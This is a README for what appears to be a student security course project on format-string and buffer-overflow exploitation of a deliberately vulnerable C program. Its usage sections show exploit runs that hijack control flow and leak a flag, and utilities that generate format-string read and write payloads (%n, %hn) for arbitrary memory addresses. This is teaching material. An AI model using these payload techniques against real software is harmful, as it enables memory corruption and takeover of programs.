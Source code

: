 # BIT semestral project

## DISCLAIMER

This repository is for educational and informational purposes **only**!

## Contents
```
\_ exploit.py              # overwrite return address
\_ exploit-flag.py         # leak flag
\_ exploit-overflow.py     # exploit 
\_ format_string.c
\_ images/
\_ Makefile
\_ utilities/
    \_ payload_offset.py
    \_ payload_read.py
    \_ payload_write.py
    \_ payload_write_short.py 
```

## Requirements

Tested with Python **3.10**, **3.11** \
Python libraries: **pwntools**

## Usage

[?] - usage\
[C] - command\
[>] - output

Clone repository:\
`https://github.com/Sofurs/bit-semestral-project.git`\
`cd bit-semestral-project`

Compile vulnerable program:\
`make`

Run exploits:
```
[C] ./exploit.py
[>] ������ffdb1d2c3e8
[>] Thisisfromanunreachablefunction!
```

```
[C] ./exploit-flag.py
[>] �WV
[>] SecretFlagForBIT
```

```
[C] ./exploit-overflow.py
[>] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis is from an unreachable function!
```

Utility Functions:\

```
[?] Usage: ./utilities/payload_offset.py {number of %x}
[C] ./utilities/payload_offset.py 5
[>] AAAABBBB %x %x %x %x %x %x 
```

```
[?] Usage: ./utilities/payload_read.py {memory address} {format character} {offset}
[?] Address format: 0xXXXXXXXX
[?] Format character: %s/%c/%x/%d/...
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_read.py 0x41424344 %s 6
[>] DCBA%7$s
```

```c
[?] Uage: ./utilities/payload_write.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write.py 0x41424344 0x8040a020 6
[>] DCBAPADDECBAPADDFCBAPADDGCBA%08x%08x%08x%08x%08x%220x%n%128x%n%160x%n%64x%n
```

```
[?] Usage: ./utilities/payload_write_short.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write_short.py 0x41424344 0x8040a020 6
[>] DCBAFCBA%40984x%7$hn%57376x%8$hn
```

## Format String

![Format string basics](images/format-string.png)

![Stack frame and format string read/write](images/format-string-rw.png)

![Format string read/write howto](images/format-string-detail-rw.png)
